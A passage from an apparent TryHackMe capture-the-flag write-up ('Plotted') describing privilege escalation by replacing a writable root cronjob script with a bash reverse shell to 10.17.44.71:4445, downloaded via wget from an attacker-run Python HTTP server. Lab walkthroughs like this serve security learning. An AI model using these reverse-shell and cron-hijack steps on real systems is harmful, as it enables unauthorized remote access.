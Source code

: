 ## 5- Privilege Escalation [1]

So now we need more perms to actually access the `user.txt`.

Now I started trying some classic privilege escalation techniques, and found a interesting cronjob.

 

![Untitled](https://github.com/3J0SKA/THM-WriteUps/blob/main/Plotted-TM/Images/Untitled%2026.png)

The contents of the file shows that the cronjob just saves backup files. 

Content : 

```bash
!/bin/bash

/usr/bin/rsync -a /var/www/html/management /home/plot_admin/tms_backup
/bin/chmod -R 770 /home/plot_admin/tms_backup/management
```

Apparently we can’t write to the file but we can write on the directory, so we can just delete this file and make a new one with the shell in it. Make sure the file has the same name.

So first set up a python HTTP server.

```bash
python2 -m SimpleHTTPServer 8082
```

Then make the file `[backup.sh](http://backup.sh)` on your system and save the following content in it. 

```bash
#!/bin/bash
/bin/sh -i >& /dev/tcp/10.17.44.71/4445 0>&1
```

Now `wget` the file to save it into the victim (make sure the original [backup.sh](http://backup.sh) is deleted) 

```bash
wget http://10.17.44.71:8082/backup.sh
```

Now give perms to the file. 

```bash
chmod +x backup.sh
```

Now after sometime you should receive the shell.

![Untitled](https://github.com/3J0SKA/THM-WriteUps/blob/main/Plotted-TM/Images/Untitled%2027.png)
